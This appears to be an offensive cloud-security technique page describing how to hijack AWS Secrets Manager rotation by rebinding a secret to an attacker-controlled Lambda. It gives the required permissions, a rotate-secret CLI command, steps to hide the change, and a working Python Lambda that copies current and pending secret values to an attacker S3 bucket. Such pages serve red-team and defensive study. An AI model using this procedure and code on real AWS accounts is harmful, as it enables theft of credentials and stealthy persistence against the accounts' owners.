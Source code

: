 ### Swap the rotation Lambda to an attacker-controlled function via RotateSecret

Abuse `secretsmanager:RotateSecret` to rebind a secret to an attacker-controlled rotation Lambda and trigger an immediate rotation. The malicious function exfiltrates the secret versions (AWSCURRENT/AWSPENDING) during the rotation steps (createSecret/setSecret/testSecret/finishSecret) to an attacker sink (e.g., S3 or external HTTP).

- Requirements
  - Permissions: `secretsmanager:RotateSecret`, `lambda:InvokeFunction` on the attacker Lambda, `iam:CreateRole/PassRole/PutRolePolicy` (or AttachRolePolicy) to provision the Lambda execution role with `secretsmanager:GetSecretValue` and preferably `secretsmanager:PutSecretValue`, `secretsmanager:UpdateSecretVersionStage` (so rotation keeps working), KMS `kms:Decrypt` for the secret KMS key, and `s3:PutObject` (or outbound egress) for exfiltration.
  - A target secret id (`SecretId`) with rotation enabled or the ability to enable rotation.

- Impact
  - The attacker obtains the secret value(s) without modifying the legit rotation code. Only the rotation configuration is changed to point at the attacker Lambda. If not noticed, scheduled future rotations will continue to invoke the attacker’s function as well.

- Attack steps (CLI)
  1) Prepare attacker sink and Lambda role
     - Create S3 bucket for exfiltration and an execution role trusted by Lambda with permissions to read the secret and write to S3 (plus logs/KMS as needed).
  2) Deploy attacker Lambda that on each rotation step fetches the secret value(s) and writes them to S3. Minimal rotation logic can just copy AWSCURRENT to AWSPENDING and promote it in finishSecret to keep the service healthy.
  3) Rebind rotation and trigger
     - `aws secretsmanager rotate-secret --secret-id <SECRET_ARN> --rotation-lambda-arn <ATTACKER_LAMBDA_ARN> --rotation-rules '{"ScheduleExpression":"rate(10 days)"}' --rotate-immediately`
  4) Verify exfiltration by listing the S3 prefix for that secret and inspecting the JSON artifacts.
  5) (Optional) Restore the original rotation Lambda to reduce detection.

- Example attacker Lambda (Python) exfiltrating to S3
  - Environment: `EXFIL_BUCKET=<bucket>`
  - Handler: `lambda_function.lambda_handler`

```python
import boto3, json, os, base64, datetime
s3 = boto3.client('s3')
sm = boto3.client('secretsmanager')
BUCKET = os.environ['EXFIL_BUCKET']

def write_s3(key, data):
    s3.put_object(Bucket=BUCKET, Key=key, Body=json.dumps(data).encode('utf-8'), ContentType='application/json')

def lambda_handler(event, context):
    sid, token, step = event['SecretId'], event['ClientRequestToken'], event['Step']
    # Exfil both stages best-effort
    def getv(**kw):
        try:
            r = sm.get_secret_value(**kw)
            return {'SecretString': r.get('SecretString')} if 'SecretString' in r else {'SecretBinary': base64.b64encode(r['SecretBinary']).decode('utf-8')}
        except Exception as e:
            return {'error': str(e)}
    current = getv(SecretId=sid, VersionStage='AWSCURRENT')
    pending = getv(SecretId=sid, VersionStage='AWSPENDING')
    key = f"{sid.replace(':','_')}/{step}/{token}.json"
    write_s3(key, {'time': datetime.datetime.utcnow().strftime('%Y-%m-%dT%H:%M:%SZ'), 'step': step, 'secret_id': sid, 'token': token, 'current': current, 'pending': pending})
    # Minimal rotation (optional): copy current->pending and promote in finishSecret
    # (Implement createSecret/finishSecret using PutSecretValue and UpdateSecretVersionStage)
```
